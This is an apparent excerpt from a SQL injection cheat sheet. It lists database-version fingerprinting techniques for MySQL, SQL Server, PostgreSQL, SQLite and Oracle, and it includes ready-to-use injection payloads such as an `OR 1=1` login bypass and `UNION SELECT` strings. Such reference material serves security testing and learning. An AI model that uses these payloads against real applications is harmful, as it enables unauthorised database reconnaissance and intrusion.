 - `@@version` (MySQL and SQL Server)   
    Gives you the database version and other information for SQL Server. This is a constant, so you can just select it like any other column (you don’t need to supply the table name). You can also use `@@version` in `INSERT` and `UPDATE` statements as well as in functions:
    `admin' OR 1=1 in (SELECT @@VERSION) -- //`  
    `INSERT INTO members(id, user, pass) VALUES(1, ''+SUBSTRING(@@version,1,10) ,10)`
- `version()` (PostgreSQL)  
    `UNION SELECT NULL, version(), NULL`
- `sqlite_version()` (SQLite)  
    `UNION SELECT NULL,sqlite_version(),NULL;`
- `PRODUCT_COMPONENT_VERSION` table (Oracle)  
    `SELECT version FROM PRODUCT_COMPONENT_VERSION WHERE product LIKE 'Oracle Database%';`